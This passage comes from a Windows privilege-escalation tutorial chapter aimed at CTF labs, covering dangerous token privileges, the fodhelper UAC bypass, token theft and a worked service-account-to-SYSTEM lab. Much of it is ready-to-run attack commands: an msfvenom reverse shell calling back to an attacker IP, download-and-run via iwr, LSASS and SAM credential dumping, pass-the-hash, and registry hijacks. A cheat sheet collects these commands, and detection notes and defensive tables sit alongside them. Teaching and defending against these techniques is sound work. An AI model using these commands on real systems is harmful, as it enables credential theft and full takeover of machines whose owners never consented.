The installer runs your payload as SYSTEM. **PowerUp** automates the whole thing: `Get-RegistryAlwaysInstallElevated` then `Write-UserAddMSI` (drops a ready MSI). **Blue team note:** this policy exists to let admins deploy per-user software but is a textbook mistake in GPO; auditing for these two keys set to 1 across the estate is a one-line detection with zero false positives — no legitimate hardened build sets both.

---

## Part 11: The Other Dangerous Privileges — SeBackup, SeRestore, SeDebug, SeTakeOwnership

`whoami /priv` sometimes returns privileges other than SeImpersonate that are each a full escalation on their own. Service and backup accounts collect these.

### SeBackupPrivilege / SeRestorePrivilege

`SeBackupPrivilege` lets you **read any file** bypassing its DACL (the intent: backup software reads everything). That means you can copy the **SAM** and **SYSTEM** registry hives — normally locked to SYSTEM — and crack or pass the local admin hash offline:

```cmd
:: with SeBackup, read the locked hives via the backup semantic
reg save HKLM\SAM   C:\Temp\SAM
reg save HKLM\SYSTEM C:\Temp\SYSTEM
```

Or, if `reg save` is blocked, use the `robocopy /b` backup mode, or the `diskshadow` + `SeBackupPrivilege.dll` VSS trick to copy `ntds.dit` on a DC. Then offline:

```bash
# on Kali
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
# ... Administrator:500:aad3b...:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Pass-the-hash that Administrator NT hash back for a SYSTEM-equivalent shell:

```bash
impacket-psexec -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 Administrator@10.10.10.10
```

`SeRestorePrivilege` is the write-side twin: **write any file** ignoring DACLs. Classic abuse is to overwrite a binary that a SYSTEM process runs, or hijack an Image File Execution Options debugger key to launch your payload as SYSTEM (e.g. set a debugger on `sethc.exe`/`utilman.exe`).

### SeDebugPrivilege

`SeDebugPrivilege` grants a handle to **any process**, including SYSTEM ones. The clean abuse is to migrate into or spawn from a SYSTEM process. With Mimikatz you can `token::elevate`, or dump LSASS to harvest every logged-on user's credentials:

```
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords     # dump creds from LSASS (needs SeDebug)
```

Or in a one-liner, dump LSASS with the built-in `rundll32`/`comsvcs.dll` and crack offline:

```cmd
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump <lsass_pid> C:\Temp\lsass.dmp full
```

Metasploit's `getsystem` uses SeDebug (among others) under the hood.

### SeTakeOwnershipPrivilege

Lets you **take ownership of any securable object**. Take ownership of a SYSTEM-run binary or a sensitive file, grant yourself full control, then replace/read it:

```cmd
takeown /f C:\Windows\System32\somesvc.exe
icacls  C:\Windows\System32\somesvc.exe /grant pwn:F
:: now overwrite it with your payload; it runs as SYSTEM on next service start
```

| Privilege | Primitive it gives | Fastest path to SYSTEM |
|---|---|---|
| SeImpersonate / SeAssignPrimaryToken | Impersonate a token | Potato family (Part 8) |
| SeBackup | Read any file | Dump SAM/SYSTEM → secretsdump → PtH |
| SeRestore | Write any file | Overwrite SYSTEM binary / IFEO debugger |
| SeDebug | Handle to any process | Mimikatz LSASS dump / token::elevate |
| SeTakeOwnership | Own any object | takeown+icacls a SYSTEM binary, replace it |
| SeManageVolume | Full disk write eventually | Arbitrary write via volume ACL abuse |

**CTF note:** HackTheBox boxes frequently gate the final step behind exactly one of these — e.g. a "backup operator" user with SeBackup, or an admin-but-UAC-limited user with SeDebug. Reading `whoami /priv` first tells you which door to open.

---

## Part 12: UAC — What It Is and Bypassing It (fodhelper)

**User Account Control (UAC)** is the reason "I'm in the Administrators group" is not the same as "I'm an admin *right now*." Understanding it is essential because many boxes hand you an admin-group user whose token is *filtered* down to Medium integrity.

### How UAC actually works

When an admin-group user logs on, LSASS issues them **two tokens**: a full-privilege **elevated** token and a **filtered** (Medium-integrity, admin-SID-stripped) token. Normal processes get the filtered one; only when a process requests elevation and the user clicks "Yes" on the consent prompt does it receive the elevated token. So a member of Administrators running `cmd.exe` normally is at Medium integrity and **cannot** read `C:\Windows\System32\config\SAM`, install services, etc. — until UAC-elevated.



The dotted arrow is a **UAC bypass**: getting the elevated token *without* the consent prompt, which auto-elevating trusted Microsoft binaries make possible.

### The fodhelper bypass

`fodhelper.exe` is a Microsoft-signed, **auto-elevating** binary (it elevates without a prompt because of its manifest + trusted path). It reads a user-controllable registry key to decide what to launch, and since that key lives in HKCU — writable at Medium integrity — you point it at your payload:

```cmd
:: as a filtered-token admin (Medium IL)
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe /c C:\Temp\pwn.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /f

:: trigger the auto-elevating binary — it runs your command at High IL, no prompt
fodhelper.exe

:: clean up
reg delete "HKCU\Software\Classes\ms-settings" /f
```

When `fodhelper` runs it consults `HKCU\...\ms-settings\Shell\Open\command`, finds your `cmd.exe /c ...`, and executes it at **High integrity with no consent prompt**. The `DelegateExecute` empty value is the trick that forces it down the `command` path.

**Important scope note:** a UAC bypass gets you from *filtered-admin* (Medium) to *High integrity admin* — it is **not** an escalation from a non-admin user. If `whoami /groups` doesn't show you in Administrators, fodhelper does nothing for you; you need Parts 3–11 instead. From High integrity you then go to SYSTEM easily (`PsExec -s`, service install, or a Potato).

**Detection note:** the `ms-settings` HKCU registry write followed by `fodhelper.exe` spawning a non-settings child is a well-known, heavily-hunted UAC-bypass IOC (Sysmon EID 13 registry-set + EID 1 process-create correlation). Microsoft has patched several bypass binaries over time; fodhelper still works on many builds but treat any specific bypass as version-dependent and enumerate first.

---

## Part 13: Token Impersonation and Theft (incognito / Rubeus)

Once you are SYSTEM — or a service account with SeImpersonate — you can **steal existing tokens** for other users who are logged on, which is how local escalation becomes lateral movement into the domain. If a domain admin has a session on the box (a scheduled task, an RDP session, a service), their token is sitting in memory for the taking.

### incognito (Metasploit)

`incognito` lists and impersonates **delegation tokens** present on the host:

```
meterpreter > load incognito
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
CORP\Administrator
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "CORP\\Administrator"
[+] Successfully impersonated user CORP\Administrator
meterpreter > getuid
Server username: CORP\Administrator
```

A **delegation token** (from an interactive/RDP logon) can be used to authenticate to *remote* systems; an **impersonation token** (from a network logon) only works locally — the distinction decides whether a stolen token moves you laterally.

### Rubeus (Kerberos angle, preview of Chapter 6)

From SYSTEM you can also harvest **Kerberos tickets** from memory with Rubeus, then pass them:

```
C:\> Rubeus.exe triage          # list all tickets in memory
C:\> Rubeus.exe dump /nowrap    # extract TGTs/TGSs (base64)
C:\> Rubeus.exe ptt /ticket:<base64-TGT>   # inject a TGT into your session
```

This is the bridge from *local* SYSTEM to *domain* compromise — the AD chapters that follow build on exactly this primitive.

**Detection note:** token manipulation (`SeImpersonate` + `DuplicateTokenEx`) and Kerberos ticket extraction are prime EDR telemetry; incognito's `impersonate_token` and Rubeus's LSA interactions are signatured. From a defender's seat, a SYSTEM process suddenly acting as a domain admin with no corresponding interactive logon event is the tell.

---

## Part 14: Fully Worked Lab — Service Account to SYSTEM, End to End

A complete, reproducible run tying the chapter together. Scenario: you landed a shell as `iis apppool\defaultapppool` via a web exploit on a Windows Server 2019 box (mirrors HTB *Jerry*-style and TryHackMe *Windows PrivEsc* targets). Goal: SYSTEM. Every command and its realistic output.

### Step 1 — Situational awareness (Chapter 4 recap)

```
C:\inetpub> whoami
iis apppool\defaultapppool

C:\inetpub> whoami /priv
Privilege Name                Description                                    State
============================= ============================================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token                  Disabled
SeImpersonatePrivilege        Impersonate a client after authentication      Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                       Enabled
SeCreateGlobalPrivilege       Create global objects                          Enabled
```

`SeImpersonatePrivilege: Enabled` — **decision made.** This is a Part 8 (Potato) box. But we'll also enumerate services to show the full method and pick the cleanest path.

### Step 2 — Enumerate the service surface (in parallel)

```
C:\> accesschk.exe /accepteula -uwcqv "iis apppool\defaultapppool" *
  (no writable services)

C:\> whoami /groups | findstr /i "BUILTIN\\Administrators"
  (not in administrators — so UAC bypass is irrelevant; must use the privilege)
```

No weak service ACLs, not in Administrators. The token privilege is the path — exactly why `whoami /priv` is run first.

### Step 3 — Stage the payload and listener

On Kali:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe -o pwn.exe
python3 -m http.server 80        # serve the payload
nc -lvnp 443                     # catch the SYSTEM shell
```

On the target, pull the payload and the Potato:

```cmd
powershell -c "iwr http://10.10.14.5/pwn.exe -o C:\Temp\pwn.exe"
powershell -c "iwr http://10.10.14.5/PrintSpoofer64.exe -o C:\Temp\ps.exe"
```

### Step 4 — Fire PrintSpoofer

```
C:\Temp> ps.exe -c "C:\Temp\pwn.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening ...
[+] CreateProcessAsUser() OK
```

Back on the Kali listener:

```
$ nc -lvnp 443
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49812
Microsoft Windows [Version 10.0.17763.107]
C:\Windows\system32> whoami
nt authority\system
```

**SYSTEM.** If PrintSpoofer had failed (spooler disabled), the fallback is one line:

```cmd
C:\Temp> godpotato-net4.exe -cmd "C:\Temp\pwn.exe"
```

### Step 5 — Consolidate and loot

```cmd
:: dump local hashes for persistence / lateral movement
reg save HKLM\SAM C:\Temp\SAM & reg save HKLM\SYSTEM C:\Temp\SYSTEM
:: grab the flag / prove access
type C:\Users\Administrator\Desktop\root.txt
```

Then off-box: `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` to pull the Administrator hash for pass-the-hash. **Restore anything you changed** and note every artifact in your report.

### Step 6 — Clean up

Remove `C:\Temp\pwn.exe`, `ps.exe`, and the dumped hives; if you modified any service config restore it; document the exact commands run and the exact time, so the blue team can validate their detections against your activity.

---

## Part 15: Detection & Defense Angle

Every technique above leaves a trace. This consolidated section is the defender's view — what to log, what to hunt, and how to prevent each class.

### Prevention (kills whole categories)

- **Service ACLs:** no non-admin principal should hold `SERVICE_CHANGE_CONFIG` or write to a service binary/dir. Audit with `accesschk -uwcqv "Users" *` and `... "Authenticated Users" *` on every gold image.
- **Quote every service path.** Installers must wrap `ImagePath` in quotes. Sweep with `wmic service get name,pathname | findstr /v """`.
- **Remove SeImpersonate where possible / apply the mitigations.** You cannot strip it from IIS/SQL without breaking them, but you *can* keep the box patched (RoguePotato/JuicyPotato vectors close on newer builds) and disable the Print Spooler on servers that don't print (kills PrintSpoofer's vector — this is also the PrintNightmare mitigation).
- **Never set AlwaysInstallElevated.** Audit both registry keys estate-wide.
- **UAC to the highest level**, and treat filtered-admin accounts as sensitive; the real fix for bypasses is not being a local admin in the first place (least privilege).

### Detection (what to alert on)

| Technique | Primary telemetry | High-fidelity signal |
|---|---|---|
| Weak service ACL abuse | Event 7040 (config change), 4657 (registry), Sysmon 13 | `services.exe`/`sc.exe` altering `ImagePath` then a SYSTEM `net.exe`/`cmd.exe` |
| Service binary overwrite | Sysmon 11 (file create) on a service EXE | Non-admin process writing under `C:\Program Files\...\*.exe` |
| Unquoted path | Sysmon 1 | SYSTEM service spawning an EXE from an unexpected path prefix |
| DLL hijack | Sysmon 7 (image load) | Unsigned DLL loaded from a user-writable dir by a signed service |
| Potato family | Sysmon 1 + named-pipe events (17/18) | `spoolsv.exe`/`services.exe` → `cmd.exe` at System IL; known-bad hashes |
| AlwaysInstallElevated | 4688 / Sysmon 1 | `msiexec` at SYSTEM launched by a standard user |
| UAC bypass (fodhelper) | Sysmon 13 + 1 | `HKCU\...\ms-settings\Shell\Open\command` write, then `fodhelper.exe` child |
| Token theft | EDR token telemetry, 4624/4672 | SYSTEM process acting as a domain user with no matching interactive logon |

**IR use case:** the single most valuable rule across this whole chapter is *"a child process running at System integrity whose parent is `services.exe`, `spoolsv.exe`, or `svchost.exe` and whose image is `cmd.exe`/`powershell.exe`/an unsigned binary in a user-writable path."* That one correlation catches the majority of the techniques here.

---

## Part 16: Final Revision / Summary

The Windows escalation decision tree, distilled:



The order of operations that wins on a real box:

1. `whoami /priv` and `whoami /groups` — decide privilege path vs service path vs UAC.
2. If a dangerous privilege is present, cash it in directly (Potato / SeBackup / SeDebug) — usually fastest.
3. Otherwise audit services with `accesschk` and the built-in `wmic`/`sc` checks; take the first clean service lead (config > binary > unquoted > DLL).
4. Check AlwaysInstallElevated as a cheap always-worth-trying policy bug.
5. Always leave the box restored and every action documented.

Key mental hooks: **"SeImpersonate = Potato = SYSTEM."** **"Unquoted path = plant the prefix before the space."** **"binPath= needs a space after the equals."** **"UAC bypass promotes an admin, it does not create one."**

---

## Part 17: Cheat Sheet / Quick Reference

```text
# -- DECIDE THE PATH ------------------------------------------
whoami /priv                       # dangerous privileges?
whoami /groups                     # in Administrators (but Medium IL)?

# -- SERVICE AUDIT --------------------------------------------
accesschk.exe /accepteula -uwcqv "Authenticated Users" *   # weak service ACLs
accesschk.exe /accepteula -uwcqv "Everyone" *
sc qc <svc>                        # config + run-as account
sc qprivs <svc>                    # svc privileges
wmic service get name,pathname,startmode | findstr /i /v """  # unquoted paths

# -- WEAK SERVICE CONFIG (SERVICE_CHANGE_CONFIG) --------------
sc config <svc> binPath= "cmd /c net localgroup administrators pwn /add"
sc stop <svc> & sc start <svc>     # 1053 timeout on net.exe is expected
sc config <svc> binPath= "<original path>"   # RESTORE

# -- WRITABLE BINARY ------------------------------------------
accesschk.exe /accepteula -quvw "<path\svc.exe>"    # FILE_ALL_ACCESS?
copy /Y pwn.exe "<path\svc.exe>" & sc stop <svc> & sc start <svc>

# -- UNQUOTED PATH --------------------------------------------
accesschk.exe /accepteula -uwdq "C:\Program Files\Vuln Service\"
copy pwn.exe "C:\Program Files\Vuln.exe" & sc stop <svc> & sc start <svc>

# -- TOKEN PRIVILEGE -> SYSTEM (SeImpersonate) ----------------
PrintSpoofer64.exe -i -c cmd.exe
GodPotato-NET4.exe -cmd "C:\Temp\pwn.exe"
JuicyPotato.exe -l 1337 -p C:\Temp\pwn.exe -t * -c {CLSID}    # legacy

# -- OTHER PRIVILEGES -----------------------------------------
# SeBackup:  reg save HKLM\SAM C:\T\SAM & reg save HKLM\SYSTEM C:\T\SYSTEM
#            impacket-secretsdump -sam SAM -system SYSTEM LOCAL
# SeDebug:   rundll32 comsvcs.dll, MiniDump <lsass_pid> C:\T\l.dmp full
# SeTakeOwn: takeown /f <file> & icacls <file> /grant pwn:F

# -- AlwaysInstallElevated -----------------------------------
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i C:\Temp\evil.msi          # both = 0x1

# -- UAC BYPASS (filtered-admin -> High IL) ------------------
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd /c C:\T\pwn.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /f
fodhelper.exe
reg delete "HKCU\Software\Classes\ms-settings" /f

# -- PAYLOADS (Kali) -----------------------------------------
msfvenom -p windows/x64/exec CMD='net localgroup administrators pwn /add' -f exe -o add.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe-service -o svc.exe
msfvenom -p windows/x64/exec CMD='net localgroup administrators pwn /add' -f msi -o evil.msi
nc -lvnp 443
```

---

## Part 18: Common Pitfalls

- **`sc config` spacing.** `binPath= "..."` — space *after* `=`, never before. The number-one silent failure.
- **Wrong payload type for services.** A plain reverse-shell EXE launched by the SCM dies in ~30s; use `-f exe-service` for anything that must persist as a service, or a one-shot `exec` command that returns instantly.
- **Unquoted-path filename.** Plant the binary named after the path segment *before the first space* (`Common.exe` for `...\Common Files\...`), and confirm the directory is actually writable with `accesschk -uwdq`.
- **Confusing writable file vs writable directory.** Only a writable *file* lets you overwrite the EXE; a writable *directory* may still block replacement if the service holds the handle — that case is usually a DLL-hijack or unquoted-path surface instead.
- **Expecting UAC bypass to escalate a non-admin.** fodhelper and friends only promote a *filtered-admin* token to High IL. If `whoami /groups` isn't in Administrators, it does nothing — use a service or privilege path.
- **Forgetting the `.NET` version for GodPotato.** Ship the build matching the target runtime (`GodPotato-NET4.exe` for .NET 4.x); the wrong one throws a load error.
- **JuicyPotato on modern Windows.** Dead on 1809+/Server 2019+ — reach for PrintSpoofer/RoguePotato/GodPotato instead; don't waste time on CLSIDs that no longer resolve.
- **Not restoring state.** Leaving a rewritten `binPath`, a replaced binary, or a planted DLL breaks the box and burns your access when it's noticed. Back up, exploit, restore, document.
- **`/accepteula` omitted** — accesschk hangs on the EULA prompt in a non-interactive shell and your automation stalls.

---

## Part 19: Practice Labs & Resources

Every item here trains a specific technique from this chapter:

- **TryHackMe — *Windows PrivEsc* (room `windows10privesc`)**: the canonical hands-on for Parts 3, 4, 7, 9, 10 — the exact `daclsvc`, `filepermsvc`, `dllsvc`, `unquotedsvc`, and AlwaysInstallElevated services used in this chapter's examples.
- **TryHackMe — *Windows PrivEsc Arena*** and ***Steel Mountain***: Steel Mountain is a clean end-to-end service-binary-overwrite (Part 4) plus PrintSpoofer/Potato (Part 8) box.
- **HackTheBox — *Jerry*** (Tomcat → service account → SeImpersonate → Potato), ***Optimum*** (kernel + Watson), ***Bastard***, ***Devel*** (IIS → SeImpersonate → JuicyPotato/PrintSpoofer): classic SeImpersonate-to-SYSTEM chains for Part 8.
- **HackTheBox — any MSSQL box (*Querier*, *Giddy*)**: land as `nt service\mssqlserver` via `xp_cmdshell`, then Potato to SYSTEM — the most common real-world version of Part 8.
- **GhostPack docs**: read the PowerUp and SharpUp source (`Invoke-AllChecks`, `SharpUp.exe audit`) to see exactly what each check queries — invaluable for the manual method.
- **Sysinternals Live**: practice `accesschk` and `procmon` (DLL-hijack hunting, Part 7) on your own VM; filter Procmon on `NAME NOT FOUND` + `.dll`.
- **PrivescCheck / WinPEAS output**: re-run against a lab box and map each flagged finding to the exploitation path in this chapter — the enumeration-to-exploitation bridge from Chapter 4 into Chapter 5.

### Practice questions

1. `whoami /priv` shows `SeImpersonatePrivilege: Enabled` on a Server 2019 box, the Print Spooler is disabled, and you are `nt service\mssqlserver`. What is your exploitation path, and which single tool do you reach for? Explain why the spooler being off changes the choice.
2. You find a service with `ImagePath = C:\Program Files\Acme Backup\Backup Agent\agent.exe` (unquoted) and `accesschk` shows `Users` have `RW` on `C:\Program Files\Acme Backup\`. Exactly what filename do you plant, where, and why that name?
3. A user is a member of `BUILTIN\Administrators` but `whoami /priv` is sparse and you cannot read the SAM. What is happening, and what technique moves you forward — and what does that technique *not* do?
4. Contrast the exploitation of `SERVICE_CHANGE_CONFIG` (weak service ACL) versus a writable service binary. When can you use one but not the other, and which is quieter on the wire?
5. Write the full command sequence to weaponise `AlwaysInstallElevated` from payload generation on Kali through execution on the target, and state the one condition that must hold for it to work.

The next chapter moves from local SYSTEM into the domain: with a SYSTEM shell and the token/credential primitives from Parts 11 and 13 in hand, it opens the Active Directory attack path — enumeration, Kerberos, and the first lateral-movement techniques that turn one compromised host into domain dominance.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-privilege-escalation/05-windows-privilege-escalation-part-2-services-tokens-uac-unquoted-paths), with comments and the latest edits.*
